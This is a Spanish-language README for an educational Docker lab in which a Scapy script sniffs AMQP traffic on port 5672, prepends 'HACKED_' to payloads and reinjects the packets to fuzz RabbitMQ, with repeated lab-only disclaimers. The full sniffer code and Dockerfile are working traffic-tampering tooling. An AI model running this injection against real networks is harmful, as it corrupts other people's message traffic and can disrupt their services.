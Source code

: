 # 🧃🐇 AMQP Packet Chaos con Scapy (SOLO FINES EDUCATIVOS)

🚨 **Disclaimer:**  
Este proyecto es **SOLO** con fines educativos para entender cómo interceptar/modificar/inyectar tráfico AMQP usando **Scapy**. NO lo uses en redes ajenas. Sé decente: solo en entorno de laboratorio.

## 📂 Estructura
.
├── docker-compose.yml
├── el_enviador/
│   ├── Dockerfile
│   ├── Insaneador.py
├── el_espameado/
│   ├── Dockerfile
│   ├── Insaneado.py
├── el_sniffer/
│   ├── Dockerfile
│   ├── modificador.py

## 🚀 Qué hace
- Levanta RabbitMQ con interfaz de gestión.
- `el_enviador` envía mensajes AMQP.
- `el_espameado` los recibe.
- `el_sniffer` intercepta paquetes AMQP (**puerto 5672**) con **Scapy**.
- Modifica payload (fuzzing básico).
- Reinyecta los paquetes alterados para ver si RabbitMQ explota o filtra.

## 🧃 modificador.py
from scapy.all import *

print("🧃 Sniffer MITM activo...")

def packet_callback(packet):
    if packet.haslayer(TCP) and packet[TCP].dport == 5672:
        print(f"📦 Original: {packet.summary()}")
        if Raw in packet:
            original = packet[Raw].load
            modified = b"HACKED_" + original
            packet[Raw].load = modified
            del packet[IP].chksum
            del packet[TCP].chksum
            send(packet)
            print(f"🚨 Modificado y reinyectado: {packet.summary()}")

sniff(filter="tcp port 5672", prn=packet_callback, store=0)

## 🧃 Dockerfile el_sniffer
FROM python:3.11-slim

RUN apt-get update && apt-get install -y tcpdump iproute2 iputils-ping && pip install scapy

WORKDIR /app
COPY modificador.py .
CMD ["python", "modificador.py"]

## 🧃 Disclaimer final
**SOLO LABORATORIO. SOLO PRUEBAS. NO A LAS ILEGALIDADES EXPLOSIVAS.**  
No hackees a la tía que vende empanadas. 🫠🐇💥
